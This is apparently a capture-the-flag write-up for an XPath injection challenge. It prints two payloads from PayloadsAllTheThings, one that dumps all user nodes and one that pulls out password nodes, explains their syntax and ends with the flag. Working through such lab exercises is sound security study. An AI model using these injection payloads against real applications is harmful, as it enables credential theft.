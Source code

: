 ```yaml
---
layout: default
title: XPath-injection-String
---
```


Here we uses this payload from payloadAllTheThings
```
')] | //user/*[contains(*,' 
```
It says:
concat to the results from before `|`,
and select all nodes (`/*`) under user (`//user`), which contains anything (`contains(*`)

We can on the same way ask for this query, and by this way search only in the passwords section:
```
')] | //user/password[contains(*,' 
```

![FINAL](./images/XPath-injection-String_FINAL.png)

**Flag:** **_`MB5PRCvfOXiYejMcmNTI`_**